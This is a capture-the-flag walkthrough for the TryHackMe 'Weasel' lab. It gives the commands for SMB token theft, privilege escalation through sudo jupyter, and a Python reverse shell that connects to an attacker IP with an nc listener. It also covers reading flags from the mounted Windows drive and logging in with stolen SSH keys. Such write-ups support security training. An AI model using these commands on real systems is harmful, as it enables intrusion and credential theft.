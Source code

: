 # Weasel

[Weasel](https://tryhackme.com/room/weasel)

## Solution

### Enumeration

- nmap scan: 22, 135, 139, 445, 3389, 8888

### Notebook token

```
echo "" | smbclient \\\\$IP\\datasci-team -c 'get misc/jupyter-token.txt' && cat misc/jupyter-token.txt
```

1. Create a new terminal `New` -> `Terminal`
2. `ln -s /home/dev-datasci/anaconda3/bin/jupyter /home/dev-datasci/.local/bin/jupyter`
3. `sudo .local/bin/jupyter console`
4. On the host start `nc -lvnp 6969`
5. On the target run a revshell script. `import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_IP",6969));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")`
    - python3 -c 'import pty;pty.spawn("/bin/bash")'
6. `mount -t drvfs C: /mnt/c`

### Windows Filesystem

User Flag: `cat /mnt/c/Users/dev-datasci-lowpriv/Desktop/user.txt`

### Easy Way with nc

```
cd /mnt/c/Users/Administrator/Desktop
cat root.txt
```

### Get User in cmd

```
cd /mnt/c/Users/dev-datasci-lowpriv/.ssh
chmod 600 authorized_keys
chmod 600 id_ed25519
chmod 600 id_ed25519.pub
```

On host `ssh -i dev-datasci-lowpriv_id_ed25519 dev-datasci-lowpriv@$IP`
